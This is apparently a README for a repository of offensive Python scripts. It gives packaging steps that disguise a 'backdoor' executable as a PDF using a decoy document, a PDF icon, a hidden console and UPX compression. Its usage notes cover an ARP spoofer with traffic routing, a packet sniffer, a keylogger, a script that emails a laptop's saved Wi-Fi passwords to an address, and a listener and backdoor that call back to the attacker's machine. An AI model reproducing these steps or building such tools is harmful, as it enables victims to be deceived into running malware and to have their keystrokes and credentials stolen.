 # Python Scripts
A Collection of Python Scripts.

## Packaging

### Windows
- Install pyinstaller for python: ```python.exe -m pip install pyinstaller```
- Search pdf in [IconFinder](https://www.iconfinder.com/) to create an icon (size:128px & 512*\512) with PNG format
- Use [Convertor](https://www.zamzar.com/convert/png-to-ico/) to convert PNG to ICO (512\*512) & change the name to pdf.ico
- Convert to exe: ```pyinstaller.exe backdoor.py --onefile --noconsole --add-data "/root/Downloads/sample.pdf;." --icon /root/Downlaods/pdf.ico```
- Use UPX (from github) to compress exe file: ```./upx /root/PycharmProjects/backdoor/dist/backdoor.exe -o compressed_bacdoor.exe```

### Linux
- Install python for Windows inside Linux: ```wine msiexec /i python-2.7.14.msi```
- Install pyinstaller for python: ```wine /root/.wine/drive_c/Python27/python.exe -m pip install pyinstaller```
- Install all imported library: ```wine /root/.wine/drive_c/Python27/python.exe -m pip install pynput```
- - Search pdf in [IconFinder](https://www.iconfinder.com/) to create an icon (size:128px & 512*\512) with PNG format
- Use [Convertor](https://www.zamzar.com/convert/png-to-ico/) to convert PNG to ICO (512\*512) & change the name to pdf.ico
- Convert to exe: ```wine /root/.wine/drive_c/Python27/Scripts/pyinstaller.exe backdoor.py --onefile --noconsole --add-data "/root/Downloads/sample.pdf;." --icon /root/Downlaods/pdf.ico```
- Use UPX (from github) to compress exe file: ```./upx /root/PycharmProjects/backdoor/dist/backdoor.exe -o compressed_bacdoor.exe```

## Usage

### Linux MAC Changer
```python linux_MAC_changer.py --interface eth0 --mac 12:11:11:11:11:11```
- First octet of the new MAC should be even (because of Unicast)

### Network Scanner
```python network_scanner.py --target 172.25.12.34/24```
- Use ```arp``` as a filter to check output in Wireshark

### ARP Spoofer
```python arp_spoofer.py --target 172.25.12.21 --gateway 172.25.12.1```
- Use ```echo 1 > /proc/sys/net/ipv4``` in attacker machine to route victim traffic to gateway

### Packet Sniffer
```python packet_sniffer.py --interface Ethernet```
- Use ```pip install scapy_http```
- Turn off all proxy
- Combine this script with Arp Spoofer

### ARP Spoof Detector
```python arp_spoof_detector.py```

### Wifi Passwords
```python packet_sniffer.py --interface Ethernet```
- Set "Less secure apps" for gmail account
- It will send all wifi credentials on laptop to an email address


### Key Logger
```python key_logger.py```
- Set "Less secure apps" for gmail account

### Listener
```python listener.py```
- Set attacker machine`a IP for my_listener object

### Backdoor
```python backdoor.py```
- Set attacker machine`a IP for my_backdoor object
- Use a sample pdf file to show to user


